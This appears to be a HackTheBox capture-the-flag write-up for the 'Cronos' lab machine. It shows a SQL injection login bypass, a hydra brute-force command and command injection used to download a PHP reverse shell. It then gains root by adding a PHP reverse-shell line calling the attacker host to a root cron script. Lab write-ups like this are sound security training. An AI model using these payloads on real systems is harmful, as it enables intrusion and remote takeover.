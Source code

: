 # Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/cronos-01.png)


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ An Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS Port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/any-03.png)

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/site-04.png)

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/development-05.png)

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/env-06.png)

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the EAS CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/login-07.png)

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/logged-08.png)

Looks like this page is running a command? lets look at the source code:

![source-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/source-09.png)


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/initial-10.png)

Lets try to modify these parameters to run something like `ls .`

![mod-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/mod-11.png)

It works:

![rce-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/rce-12.png)


This `config.php` looks interesting, lets see whats inside:

![empty-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/empty-13.png)

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/update-14.png)

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/upload-15.png)

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/shell-16.png)


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/crontab-17.png)

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/aristan-18.png)

A simple PHP script, so if we add a reverse shell line right at the top, wouldn't that give us a shell as root regardless of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `Vi`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/add-19.png)

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection one the cron-job is executed:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/root-20.png)
